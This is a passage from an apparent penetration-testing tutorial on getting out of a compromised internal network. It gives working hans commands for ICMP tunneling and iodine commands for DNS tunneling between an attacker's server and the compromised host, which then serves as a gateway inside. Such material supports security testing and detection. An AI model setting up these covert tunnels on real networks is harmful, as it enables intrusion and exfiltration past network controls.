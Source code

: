 As a result, a socks4 proxy service will be bound server side on port 1080.

## Exfiltrating from the internal network

Here's a different case. Let's say your social engineering gig ended up placing you in the internal network. You have limited connectivity and ability to execute command on the compromised machine.  Of course, if the internet is directly routed and not firewalled you can resort to any technique described above. But if you're not so lucky there're still ways to pivot your way out.

### ICMP tunneling

If icmp traffic is allowed to external networks then most likely you can establish an icmp tunnel. The downside is that you will need root/administrator privileges on the target system becase of the necesity to use raw sockets. Check this tool out - <http://code.gerade.org/hans/>. Personally I've never tried running it on Windows. It works like a charm on Linux tho. Server side command (attacker's machine):

`./hans -v -f -s 1.1.1.1 -p P@ssw0rd`

The `-v` flag is for verbosity, the `-f` flag is to run in foreground and the `-s` flag's value is the server's ip on the newly created tun interface.

Client side: 

`./hans -f -c <server_ip> -p P@ssw0rd -v`

After successful connection the client should be directly visible at 1.1.1.100:

```text
# ping 1.1.1.100
PING 1.1.1.100 (1.1.1.100) 56(84) bytes of data.
64 bytes from 1.1.1.100: icmp_seq=1 ttl=65 time=42.9 ms
```

Now you can use this machine as gate into the internal network. Use this machine a default gateway or connect to a management interface (ssh/tsh/web shell).

### DNS tunneling

If any WAN traffic is blocked but external host names are resolved then there's a possibility of tunneling traffic via DNS queries. You need a domain registered for this technique to work. [This manual](http://dev.kryo.se/iodine/wiki/HowtoSetup) might help you with setting up your name server.

#### Iodine

If so happens that you got root access on the server you can try [iodine](http://code.kryo.se/iodine/). It works almost like hans icmp tunneling tool - it creates a pair of tun adapters and tunnels data between them as DNS queries. Server side:

`iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com`

Client side:

`iodine -f -P P@ssw0rd tunneldomain.com -r`

Successful connection will yield direct client visibility at address 1.1.1.2. Note, that this tunneling technique is quite slow. Your best bet is to use a compressed ssh connection over the resulting connection:
